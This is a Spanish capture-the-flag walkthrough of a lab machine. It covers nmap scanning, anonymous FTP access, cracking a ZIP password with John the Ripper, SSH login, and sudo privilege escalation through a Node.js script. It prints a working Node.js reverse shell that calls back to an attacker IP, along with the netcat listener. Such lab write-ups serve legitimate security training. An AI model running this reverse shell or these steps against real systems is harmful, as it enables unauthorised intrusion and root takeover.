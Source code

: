 ![1](https://github.com/user-attachments/assets/e29678ab-1633-41fb-a33a-d4f28a13f1f2)

## Conectividad con la máquina objetivo

Vemos que al desplegar la máquina nos da una IP, así que hacemos un ping y comprobamos la conectividad.

![3](https://github.com/user-attachments/assets/1d28bf54-e8bd-46ae-9062-e4738a4d6173)

Hacemos ping y vemos que tenemos conectividad

![4](https://github.com/user-attachments/assets/7916527c-6dad-4ac6-8475-9640185f3380)

## Descubrimiento de Puertos y Servicios

Lanzo un escaneo con `nmap` y compruebo lo siguiente:

`nmap -p- -sS -sC -sV -O 172.17.0.2 -oN puertos.txt`

![2](https://github.com/user-attachments/assets/90d7d84b-f36e-489c-bfd0-c09dfd7f0040)

### Puertos y Servicios

| Puerto | Servicio | Versión       |
| ------ | -------- | ------------- |
| 21     | FTP      | Vsftpd 3.0.3  |
| 22     | SSH      | OpenSSH 9.2p1 |

## Fase de Explotación

Vemos que podemos entrar como **anonymous** en FTP y que hay un archivo ZIP. Nos los traemos a nuestra máquina con el comando get.

![5](https://github.com/user-attachments/assets/98e09495-9266-4e30-948e-78c3d23f5f2e)

Lo abrimos y a simple vista veo que hay un .txt con la clave para entrar por SSH.

![6](https://github.com/user-attachments/assets/fdd44f7c-1c61-4c85-a21d-e062b8335919)

Si lo intentamos extraer nos pide una clave, pero no la sabemos.

Podemos convertir el fichero a un hash para luego con john hacer fuerza bruta para sacar la clave del .zip.

`zip2jhon secretitopicaron.zip > secretitohash`

![7](https://github.com/user-attachments/assets/c24fa042-8fe4-4825-91bc-3d7ee84bc21b)

Ahora con `jhon` intentamos sacar la clave.

`john --format=PKZIP -w /usr/share/wordlist/rockyou.txt secretitohash`

![8](https://github.com/user-attachments/assets/15fde27b-146c-447b-a08e-b24b07bec44f)

Y vemos que la clave es *password1*

Lo intentamos extraer y vemos que si nos deja, abrimos el password.txt y sale esto.

![9](https://github.com/user-attachments/assets/ea94c6f6-0d28-4a20-8c50-fd8719b56677)

Por lo que entramos por SSH y vemos que podemos ejecutar como cualquier usuario el binario node pero solo el script que hay en /home/mario.

![10](https://github.com/user-attachments/assets/73d44641-685e-470c-8cac-e14340b92abd)

Si abrimos el script, vemos que está vacido. Podemos meter una reverse shell y ejecutarla como root para conseguir privilegios.

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(443, "192.168.1.246", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

En la máquina atacante, en nuestro kali, ejecutamos primero:

`nc -nlvp 443`

Y luego ejecutamos el script

Si se queda colgado y en nuestra máquina conseguimos la bash lo hemos hecho bien.

Ahora ejecutamos `whoami` y vemos que somos root.

![11](https://github.com/user-attachments/assets/f3281978-4be3-43ba-9f6f-5c2cec233b78)

Ya somos root!!